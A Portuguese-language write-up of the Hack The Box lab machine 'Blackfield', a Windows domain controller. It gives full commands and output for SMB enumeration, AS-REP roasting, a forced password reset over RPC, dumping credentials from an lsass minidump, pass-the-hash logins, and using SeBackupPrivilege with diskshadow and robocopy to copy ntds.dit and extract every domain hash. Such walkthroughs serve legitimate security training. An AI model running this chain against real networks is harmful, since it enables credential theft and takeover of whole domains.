





1. [Resolução da máquina **Blackfield**](#resolução-da-máquina-blackfield) 1. [Máquina Hard (hackthebox.com)](#máquina-hard-hacktheboxcom) 2. [by **_JavaliMZ_** - 23/09/2021](#by-javalimz---23092021)
2. [Introdução](#introdução)
3. [Enumeração](#enumeração)
    1. [Nmap](#nmap)
    2. [SMB (anonymous)](#smb-anonymous)
    3. [AS-REP Roasting Attack](#as-rep-roasting-attack)
    4. [RPC](#rpc)
    5. [AS-REP Roasting Attack](#as-rep-roasting-attack-1)
    6. [Bloodhound](#bloodhound)
    7. [SMB](#smb)
4. [PrivEsc svc_backup ==\> Administrator de domínio](#privesc-svc_backup--administrator-de-domínio)


# Resolução da máquina **Blackfield**

#### Máquina Hard (hackthebox.com)

#### by **_JavaliMZ_** - 23/09/2021

---

---

# Introdução

Bem-vindo para mais um Writeup, desta vez da máquina Blackfield. É uma máquina Windows não muito complexa, mas bastante interessante. Em diversos passos, irei reduzir o número de usuários porque já sei quais são os importantes e os que posso eliminar, só mesmo para termos outputs mais "cleans" para o writeup. Mas normalmente nunca é bom apagar informações coletadas às cegas...

# Enumeração

Como sempre, quando se enfrenta uma máquina, temos de saber por onde vamos entrar. Para isso, temos de enumerar todas as portas abertas da máquina. Iremos utilizar o clássico nmap para esta tarefa.

## Nmap

```powershell
sudo nmap -sS -p- -n -Pn --min-rate 5000 10.10.10.192 -oG enumeration/allPorts

#>  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
#>  Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 14:15 WEST
#>  Nmap scan report for 10.10.10.192
#>  Host is up (0.042s latency).
#>  Not shown: 65527 filtered ports
#>  PORT     STATE SERVICE
#>  53/tcp   open  domain
#>  88/tcp   open  kerberos-sec
#>  135/tcp  open  msrpc
#>  389/tcp  open  ldap
#>  445/tcp  open  microsoft-ds
#>  593/tcp  open  http-rpc-epmap
#>  3268/tcp open  globalcatLDAP
#>  5985/tcp open  wsman
#>
#>  Nmap done: 1 IP address (1 host up) scanned in 26.52 seconds

nmap -p53,88,135,389,445,593,3268,5985 10.10.10.192 -Pn -sC -sV -oN enumeration/nmap-a.txt

#>  # Nmap 7.91 scan initiated Thu Sep 23 14:22:40 2021 as: nmap -p53,88,135,389,445,593,3268,5985 -Pn -sC -sV -oN enumeration/nmap-a.txt -vvv 10.10.10.192
#>  Nmap scan report for 10.10.10.192
#>  Host is up, received user-set (0.041s latency).
#>  Scanned at 2021-09-23 14:22:41 WEST for 49s
#>
#>  PORT     STATE SERVICE       REASON  VERSION
#>  53/tcp   open  domain        syn-ack Simple DNS Plus
#>  88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2021-09-23 20:22:50Z)
#>  135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
#>  389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
#>  445/tcp  open  microsoft-ds? syn-ack
#>  593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
#>  3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
#>  5985/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
#>  |_http-server-header: Microsoft-HTTPAPI/2.0
#>  |_http-title: Not Found
#>  Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
#>
#>  Host script results:
#>  |_clock-skew: 7h00m02s
#>  | p2p-conficker:
#>  |   Checking for Conficker.C or higher...
#>  |   Check 1 (port 48702/tcp): CLEAN (Timeout)
#>  |   Check 2 (port 15434/tcp): CLEAN (Timeout)
#>  |   Check 3 (port 55985/udp): CLEAN (Timeout)
#>  |   Check 4 (port 53637/udp): CLEAN (Timeout)
#>  |_  0/4 checks are positive: Host is CLEAN or ports are blocked
#>  | smb2-security-mode:
#>  |   2.02:
#>  |_    Message signing enabled and required
#>  | smb2-time:
#>  |   date: 2021-09-23T20:22:54
#>  |_  start_date: N/A
#>
#>  Read data files from: /usr/bin/../share/nmap
#>  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
#>  # Nmap done at Thu Sep 23 14:23:30 2021 -- 1 IP address (1 host up) scanned in 50.65 seconds
```

Pelas portas abertas, podemos concluir que estamos perante um Domain Controller. Não vemos páginas de internet, nem nenhum programa estranho a rodar, portanto parece que esta máquina só trata de problemas que nos podemos enfrentar em Active Directory / Domain Controller. Posto isso, o primeiro ponto que quero é enumerar usuários.

## SMB (anonymous)

Antes de tentar ver o que há nas partilhas, vamos tentar sempre conectar por RPC, visto que por esse protocolo é extremamente fácil enumerar todos os usuários, grupos e muito mais...

```powershell
rpcclient 10.10.10.192 -U '' -N
```

Não me é possível conectar... Vamos então tentar entrar por samba

```powershell
crackmapexec smb 10.10.10.192
#> SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
```

Ok, já temos algumas informações. Temos o domínio (blackfield.local) e o nome da máquina (DC01). vamos adicionar essas informações para o nosso /etc/hosts, para possíveis futuras ferramentas usarem essa informação

```powershell
echo -e "10.10.10.192\tblackfield.local dc01.blackfield.local" >> /etc/hosts
```

Com a ferramenta crackmapexec, temos opção para ver as pastas partilhadas com o parâmetro "--shares"

```powershell
crackmapexec smb 10.10.10.192 --shares

#>  SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
#>  SMB         10.10.10.192    445    DC01             [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)
```

Parece que não está acessível, mas o erro não é o normal desta ferramenta... diz "STATUS*USER_SESSION_DELETED". Vamos tentar a mesma coisa especificandos login *"null"_ e password _"vazio"\_



Agora sim! Vemos duas pastas partilhadas pelo qual podemos aceder. IPC$ e profiles$. IPC$ não tem nada, e profiles$ parece muito mais "feito à unha". Vamos entrar e ver com smbclient, usando o null session

```powershell
smbclient \\\\10.10.10.192\\profiles$ -U 'null'  # Pede a palavra pass. É só dar Enter...

smb: \> dir
#>    .                                   D        0  Wed Jun  3 17:47:12 2020
#>    ..                                  D        0  Wed Jun  3 17:47:12 2020
#>    AAlleni                             D        0  Wed Jun  3 17:47:11 2020
#>    ABarteski                           D        0  Wed Jun  3 17:47:11 2020
#>    ABekesz                             D        0  Wed Jun  3 17:47:11 2020
#>    ...
#>    ...
```

A resposta é enorme. Montes de pastas. E essas pastas soa como nomes de pessoas... Temos uns possíveis usuários. Vamos copiar isto tudo e filtrar para guardar apenas o nome da pasta para um ficheiro "users"

```powershell
smbclient \\\\10.10.10.192\\profiles$ -U 'null' -N -c "dir" > contents/users
cat contents/users | awk '{print$1}' | sponge contents/users
```

## AS-REP Roasting Attack

Agora que temos todos esses usuários, vamos tentar fazer o clássico AS-REP Roasting Attack, para tentar receber um TGT de um usuário que não precisa de requerer a pre-autenticação kerberos. Para isso, nada mais simples que o programa da impacket GetNPUsers.py

```powershell
GetNPUsers.py blackfield.local/ -no-pass -usersfile contents/users | grep -v "Client not found in Kerberos database"
```


Temos um TGT! Esse TGT pode ser decifrado com john-the-ripper ou o hashcat.



Temos uma password do usuário support:

> support:#00^BlackKnight

Vamos validar a credential com o crackmapexec

```powershell
crackmapexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

Está válido! Já ques estamos em SMB, vamos ver que ganhamos acesso a mais pastas partilhadas

```powershell
crackmapexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight' --shares
smbmap -H 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

Vemos mais pastas. Mas não há nada de mais... Existe ainda uma pasta partilhada que não temos acesso. A pasta "forensic". É promissor... mas o que fazer agora? Não podemos avançar por SMB... Pois se não podemos avançar por SMB, podemos voltar uma passo atrás e tentar conectar-nos ao serviço RPC com estas novas credenciais, que já foram validadas pelo crackmapexec. Ainda importante a referir, as credenciais não passaram no teste de validação por winrm...


## RPC

Vamos então voltar ao primeiro passo. Enumeração via RPC, mas desta vez, com as credenciais do usuário "support"

```powershell
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers"
```

Bingo! Desta vez tenho resposta. E bem grande! Todos os usuários a nível de domínio!. Isso significa duas coisas. Significa que posso tentar um novo attack AS-RES Roasting, e significa que posso extrair todas as informações de domínio.

```powershell
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers" | awk '{print$1}' | grep -oP "\[.*?\]" | tr -d '[]'
```

Todos os usuários podem ser listados com este comando... mas para limpar um pouco os usuários desnecessários para a resolução da máquina, afim de termos outputs mais "cleans", vou já eliminar todos os usuários BLACKFIELD\*.

```powershell
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers" | awk '{print$1}' | grep -oP "\[.*?\]" | tr -d '[]' | grep -v "BLACKFIELD"

#>  Administrator
#>  Guest
#>  krbtgt
#>  audit2020
#>  support
#>  svc_backup
#>  lydericlefebvre

rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers" | awk '{print$1}' | grep -oP "\[.*?\]" | tr -d '[]' | grep -v "BLACKFIELD" > contents/users
```

## AS-REP Roasting Attack

O novo ataque AS-RES Roasting naõ revela mais nada, apenas mostra outro TGT (porque a data/hora/min/seg é usado para gerar cada TGT) do mesmo usuário "support", mas confirma que todos os outros usuários existem.

```powershell
GetNPUsers.py blackfield.local/ -no-pass -usersfile contents/users

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

#>  [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
#>  [-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  $krb5asrep$23$support@BLACKFIELD.LOCAL:5baf13a3c031e279852b45cf1ca61281$fac4f6c28409e359a6ec955b32220d549295efce799d7491b8f4efdc0635bec21091ba87b29deb78b404242246e6e110bf33bfae560f61bd791a5f495fec9ecb6894615eaa100c40b2016e979f9545509a5892fef429008c70f6b6f335b968176c6670a94079b0f07f8033fb9c8869928e072b82c63a80c50be46bf574081162cbf2f5185abddcc2acdfa539e1b6c9bda807a045f65b191861a6fec9f169f308e4b4eb3a2766f0e1b3ea770684ead927114c05877fe80c42d6f4a8b7c7d6d3b0374bf936a69ed2311b047708be4a292cb827bf27761612d8ebfc898fab971b313eeaca493d8e2a6320965de255021e7677c6f058
#>  [-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User lydericlefebvre doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## Bloodhound

Agora que temos acesso ao RPC, e que podemos extrair todas informações públicas a nível de domínio, podemos tratar de gerar uma base de dados para a nossa ferramenta bloodhound, que já usamos em outras máquinas.

```powershell
bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192

sudo neo4j start
bloodhound &>/dev/null &
disown
```


Com a ajuda do BloodHound, vemos que o usuário support tem privilégio "ForceChangePassword" sobre o usuário Audit2020. Isso quer dizer que, podemos alterar a password de Audit2020 sem precisar saber a password actual dele.

Existem muitas maneiras de se fazer isso localmente, mas a partir de fora, sem RCE, apenas podemos mudar a password por RPC, e validar as novas credenciais...

```powershell
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c 'setuserinfo2 Audit2020 23 J4v4li123!'
crackmapexec smb 10.10.10.192 -u 'Audit2020' -p 'J4v4li123!'
```

## SMB

Conseguimos alterar a password com sucesso! O nome do usuário Audit2020 é suspeito de ter qualquer coisa a ver com uma das pastas partilhadas que vimos, a forensic! Vamos verificar se temos acesso



```powershell
smbclient \\\\10.10.10.192\\forensic -U 'Audit2020%J4v4li123!'
smb: \> recurse ON
smb: \> dir
```

Existem muitas pastas e ficheiros! É impensável descarregar tudo para a nossa máquina. Mas para ser mais fácil percorrer e visualizar a pasta partilhada, é melhor montar esta unidade na nossa própria máquina

```powershell
sudo su
cd /mnt
mkdir smb
mount -t cifs //10.10.10.192/forensic /mnt/smb -o username=Audit2020,password=J4v4li123\!,domain=blackfield.local,rw
# Atenção que a password não leva o sinal "\", mas está lá para escapar o sinal "!" (para não interpretar o "!")
cd smb
```

A partir de agora estamos sincronizados com a pasta de partilha. Atenção que, por mais que todos os ficheiros estão referenciados como sendo proprietário root, isto não corresponde à verdade. É mais ou menos um link, e um link no linux tem proprietário e privilégios do seu criador, não do objeto linkado.


Vemos que existe 718 ficheiros espalhados por 38 diretórios... Mas a pasta memory_analysis é muito acolhedor. E lá dentro está um ficheiro lsass.zip. Se dentro desse zip se encontra um minidump de lsass.DMP, isto está maravilhosamente fácil. Para extrair hashes de todos os usuários locais, basta utilizar a ferramenta pypykatz. O resultado do comando é longo, então podemos filtrar por "NT" e "Username", fazer um "sort" disse tudo, separar os usuários dos hashes, e dar os ingredientes todos para o crackmapexec identificar que hash é de que usuários, e validar logo isto tudo

```powershell
cd memory_analysis
cp lsass.zip /home/javali/CaptureTheFlag/HackTheBox/contents
cd /home/javali/CaptureTheFlag/HackTheBox/contents
unzip lsass.zip

pypykatz lsa minidump lsass.DMP > lsass.out
cat lsass.out | grep -E "NT|Username" | sort -u

#>  domainname NT AUTHORITY
#>                  NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
#>                  NT: 9658d1d1dcd9250115e2205d9f48400d
#>                  NT: b624dc83a27cc29da11d9bf25efea796
#>                  Username:
#>                  Username: Administrator
#>                  Username: dc01$
#>                  Username: DC01$
#>                  Username: svc_backup
```

Temos 3 hashes e 2 usuários (o DC01$ não é um usuários... é a máquina.)

```powershell
echo -e "7f1e4ff8c6a8e6b6fcae2d9c0572cd62\n9658d1d1dcd9250115e2205d9f48400d\nb624dc83a27cc29da11d9bf25efea796" > tmp_hashes
echo -e "Administrator\nsvc_backup" > tmp_users

crackmapexec smb 10.10.10.192 -u tmp_users -H tmp_hashes --continue-on-success
crackmapexec winrm 10.10.10.192 -u tmp_users -H tmp_hashes --continue-on-success
```


Temos um único resultado e já está validado. E para além de válido, está **_Pwn3d!_** em winrm. Isso quer dizer que temos capacidade de psexec, ou evil-winrm.

> svc_backup:9658d1d1dcd9250115e2205d9f48400d

# PrivEsc svc_backup ==> Administrator de domínio


Logo de entrada, vemos com um whoami qual é o caminho a seguir! Este usuário é membro do grupo SeBackupPrivilege. Pelo nome é um pouco normal. Usuários deste grupo tem privilégios para copiar programas que estão em memória RAM, e tem possibilidade de fazer backups de todo o sistema. Não pode abrir tudo "à Lagardère", mas dá para bypassar isto tudo. Já que iremos ter acesso a todos os ficheiros do sistema, podemos escolher qual queremos. Poderíamos em primeira instância quer extrair o SAM e SYSTEM, mas nesta máquina, e SAM nos daria exactamente igual ao ficheiro lsass que já vimos antes, pelo que a hash do Administrator local não funcionará (nem sei bem o motivo...). Mas há um ficheiro nos Domain Controller que contem a base de dados de todos os usuários de domínio e seus hashes. Esse ficheiro é chamado de "**_ntds.dit_**". E é este o nosso alvo. Para se fazer, basta copiar o referido ficheiro, que se encontra em C:\Windows\NTDS\ntds.dit. Problemas: - O ficheiro está em uso. (não se pode fazer copia do mesmo se está em uso) - Não tenho privilégios diretos. (tenho de usar programas que me fazem ter temporáriamente privilégios Administrador)

Existe um programa chamado de robocopy, que nos permite resolver o segundo ponto, visto que tem um parametro (/b) para fazer a cópia em backup mode (Passando a ter o privilégio do grupo SeBackupPrivilege)

O primeiro ponto é mais tricky... Eu não posso copiar um arquivo em uso. Mas posso criar uma unidade que esteja ligada ao meu disco local C:\\. O ficheiro em uso será sempre o do disco C:\\, e o mesmo ficheiro na outra unidade não estará a ser usado (GG Windows xD).

Para se fazer:

-   Criar um ficheiro com o nome privesc.txt (por exemplo)

```txt
set context persistent nowriters
add volume c: alias privesc
create
expose %privesc% z:
```

-   Ajustar compatibilidade do ficheiro para windows

```powershell
unix2dos privesc.txt
```

-   Transferir privesc.txt para o windows. Via evil-winrm, é facílimo. Privilegie um directório sem nenhum tipo de restrições de escrita (AppLockerBypass)

```powershell
cd C:\Windows\System32\spool\drivers\color
upload /home/javali/CaptureTheFlag/HackTheBox/contents/privesc.txt
```

-   Criar uma cópia shadow da unidade C:\ com as configurações do ficheiro privesc.txt

```powershell
diskshadow.exe /s .\privesc.txt
```

-   Copiar o shadow de ntds.dit para um local acessível no C:\

```powershell
robocopy /b Z:\Windows\NTDS C:\Windows\System32\spool\drivers\color ntds.dit
```

Agora temos a tal base de dados de todo o Domian Controller. Para poder ser lido, ainda faltam umas chaves de criptografia que se encontram em HKLM\SYSTEM. Basta gravar a propria memória RAM deste ficheiro em uso para o mesmo local da cópia do ntds.dit (para depois recuperar ambos os ficherio para a nossa máquina, com o commando download do evil-winrm)

```powershell
reg save HKLM\system system

download "C:/Windows/System32/spool/drivers/color/system"
download "C:/Windows/System32/spool/drivers/color/ntds.dit"
```

Com esse 2 ficheiros, é possível extrair todos os hashes NT dos usuário de domínio

```powershell
secretsdump.py -ntds ntds.dit -system system LOCAL > users_domain_hashes
cat users_domain_hashes | grep "Administrator"
#>  Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

Aqui está. O hash NTLM do usuário Administrator do domínio. Validar com crackmapexec



Somos donos da máquina! E até de todas as máquina ligadas ao Domain Controller... Mas é apenas um CTF, então é só de esta máquina lol. Com isso, já podemos ver as flags


